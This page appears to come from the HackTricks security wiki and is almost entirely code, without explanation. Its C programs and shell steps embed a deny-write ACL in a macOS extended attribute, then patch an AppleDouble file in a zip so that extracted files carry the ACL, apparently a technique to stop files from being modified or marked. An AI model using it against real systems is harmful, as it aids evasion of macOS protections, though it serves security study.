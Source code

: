 # macOS xattr-acls extra stuff

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

```bash
rm -rf /tmp/test*
echo test >/tmp/test
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" /tmp/test
./get_acls test
ACL for test:
!#acl 1
group:ABCDEFAB-CDEF-ABCD-EFAB-CDEF0000000C:everyone:12:deny:write,writeattr,writeextattr,writesecurity,chown

ACL in hex: \x21\x23\x61\x63\x6c\x20\x31\x0a\x67\x72\x6f\x75\x70\x3a\x41\x42\x43\x44\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x2d\x41\x42\x43\x44\x2d\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x30\x30\x30\x30\x30\x30\x30\x43\x3a\x65\x76\x65\x72\x79\x6f\x6e\x65\x3a\x31\x32\x3a\x64\x65\x6e\x79\x3a\x77\x72\x69\x74\x65\x2c\x77\x72\x69\x74\x65\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x65\x78\x74\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x73\x65\x63\x75\x72\x69\x74\x79\x2c\x63\x68\x6f\x77\x6e\x0a
```

<details>

<summary>Code of get_acls</summary>

```c
// gcc -o get_acls get_acls
#include <stdio.h>
#include <stdlib.h>
#include <sys/acl.h>

int main(int argc, char *argv[]) {
    if (argc != 2) {
        fprintf(stderr, "Usage: %s <filepath>\n", argv[0]);
        return 1;
    }

    const char *filepath = argv[1];
    acl_t acl = acl_get_file(filepath, ACL_TYPE_EXTENDED);
    if (acl == NULL) {
        perror("acl_get_file");
        return 1;
    }

    char *acl_text = acl_to_text(acl, NULL);
    if (acl_text == NULL) {
        perror("acl_to_text");
        acl_free(acl);
        return 1;
    }

    printf("ACL for %s:\n%s\n", filepath, acl_text);

    // Convert acl_text to hexadecimal and print it
    printf("ACL in hex: ");
    for (char *c = acl_text; *c != '\0'; c++) {
        printf("\\x%02x", (unsigned char)*c);
    }
    printf("\n");

    acl_free(acl);
    acl_free(acl_text);
    return 0;
}
```

</details>

```bash
# Lets add the xattr com.apple.xxx.xxxx with the acls
mkdir start
mkdir start/protected
./set_xattr start/protected
echo something > start/protected/something
```

<details>

<summary>Code of set_xattr</summary>

```c
// gcc -o set_xattr set_xattr.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/xattr.h>
#include <sys/acl.h>


void print_xattrs(const char *filepath) {
    ssize_t buflen = listxattr(filepath, NULL, 0, XATTR_NOFOLLOW);
    if (buflen < 0) {
        perror("listxattr");
        return;
    }

    char *buf = malloc(buflen);
    if (buf == NULL) {
        perror("malloc");
        return;
    }

    buflen = listxattr(filepath, buf, buflen, XATTR_NOFOLLOW);
    if (buflen < 0) {
        perror("listxattr");
        free(buf);
        return;
    }

    printf("All current extended attributes for %s:\n", filepath);
    for (char *name = buf; name < buf + buflen; name += strlen(name) + 1) {
        printf("%s: ", name);
        ssize_t valuelen = getxattr(filepath, name, NULL, 0, 0, XATTR_NOFOLLOW);
        if (valuelen < 0) {
            perror("getxattr");
            continue;
        }

        char *value = malloc(valuelen + 1);
        if (value == NULL) {
            perror("malloc");
            continue;
        }

        valuelen = getxattr(filepath, name, value, valuelen, 0, XATTR_NOFOLLOW);
        if (valuelen < 0) {
            perror("getxattr");
            free(value);
            continue;
        }

        value[valuelen] = '\0';  // Null-terminate the value
        printf("%s\n", value);
        free(value);
    }

    free(buf);
}


int main(int argc, char *argv[]) {
    if (argc != 2) {
        fprintf(stderr, "Usage: %s <filepath>\n", argv[0]);
        return 1;
    }

    const char *hex = "\x21\x23\x61\x63\x6c\x20\x31\x0a\x67\x72\x6f\x75\x70\x3a\x41\x42\x43\x44\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x2d\x41\x42\x43\x44\x2d\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x30\x30\x30\x30\x30\x30\x30\x43\x3a\x65\x76\x65\x72\x79\x6f\x6e\x65\x3a\x31\x32\x3a\x64\x65\x6e\x79\x3a\x77\x72\x69\x74\x65\x2c\x77\x72\x69\x74\x65\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x65\x78\x74\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x73\x65\x63\x75\x72\x69\x74\x79\x2c\x63\x68\x6f\x77\x6e\x0a";
    const char *filepath = argv[1];

    int result = setxattr(filepath, "com.apple.xxx.xxxx", hex, strlen(hex), 0, 0);
    if (result == 0) {
        printf("Extended attribute set successfully.\n\n");
    } else {
        perror("setxattr");
        return 1;
    }

    print_xattrs(filepath);

    return 0;
}
```

</details>

{% code overflow="wrap" %}
```bash
# Create appledoublefile with the xattr entitlement
ditto -c -k start protected.zip
rm -rf start
# extract the files
unzip protected.zip
# Replace the name of the xattr here (if you put it before ditto would have destroyed it)
python3 -c "with open('._protected', 'rb+') as f: content = f.read().replace(b'com.apple.xxx.xxxx', b'com.apple.acl.text'); f.seek(0); f.write(content); f.truncate()"
# zip everything back together
rm -rf protected.zip
zip -r protected.zip protected ._protected
rm -rf protected
rm ._*
```
{% endcode %}

```bash
# Check if it worked
ditto -x -k --rsrc protected.zip .
xattr -l protected
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
